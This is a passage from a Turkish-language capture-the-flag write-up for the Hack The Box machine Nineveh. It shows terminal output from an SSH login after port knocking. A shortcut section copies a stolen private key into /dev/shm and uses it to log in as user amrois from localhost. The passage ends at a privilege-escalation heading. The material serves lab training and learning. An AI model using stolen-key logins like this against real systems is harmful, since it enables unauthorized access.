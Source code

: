 ```
                                                                                                                                                                                                        
                                                                                                                                                                                                        
You have mail.                                                                                                                                                                                          
Last login: Wed Apr 22 05:34:21 2020 from 10.10.14.24                                                                                                                                                    
amrois@nineveh:~$
```

Üç portu döngüyle tarar ve her biri için, kısa bir zaman aşımı ve yeniden deneme yapmadan Nineveh’i nmap ile tarar, çıktıyı /dev/null'a yönlendirir. Ardından SSH ile bağlanır.

Ayrıca user.txt dosyasını da alabilirim:

![Pasted image 20250208004625.png](/img/user/resimler/Pasted%20image%2020250208004625.png)

![Pasted image 20250208004639.png](/img/user/resimler/Pasted%20image%2020250208004639.png)

### Shortcut - SSH from localhost

İlk çözdüğümde knockd'yi aramadım, bunun yerine Ninova'da /dev/shm'de private key'in bir kopyasını oluşturdum.

```
www-data@nineveh:/dev/shm$ chmod 600 .id_rsa
www-data@nineveh:/dev/shm$ ssh -i .id_rsa amrois@10.10.10.43
Could not create directory '/var/www/.ssh'. 
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

133 packages can be updated.
66 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$
```


## Priv: amrois –> root
